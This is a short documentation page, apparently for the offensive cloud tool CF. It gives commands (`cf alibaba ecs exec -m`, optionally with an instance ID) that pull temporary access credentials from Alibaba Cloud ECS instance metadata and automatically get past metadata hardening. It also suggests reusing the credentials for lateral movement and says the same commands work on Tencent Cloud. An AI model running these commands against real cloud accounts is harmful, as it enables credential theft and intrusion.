 ```yaml
---
title: 一键获得临时访问凭证
---
```


## 一键获得临时访问凭证

使用 `-m` 命令一键获得临时访问凭证

```bash
cf alibaba ecs exec -m
```

> 由于临时访问凭证是在元数据里的，所以存在因元数据处于加固模式而导致临时访问凭证无法获取的可能性，因此当 CF 检测到目标元数据处于加固模式时，会自动获取访问元数据的 Token，从而利用该 Token 获得临时访问凭证，简单理解的话，就是 CF 会自动绕过目标的元数据加固模式。

指定单个实例获取临时访问凭证

```bash
cf alibaba ecs exec -m -i i-abcdefghijklmn
```

::: tip Tips

当获得临时访问凭证后，可以将这个临时访问凭证配置到 CF 中，然后继续进行信息收集、内网横向。

:::

如果想在腾讯云下执行这些命令，只需要使用 `cf tencent` 跟上对应的命令即可。

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月18日"
    }
  }
</script>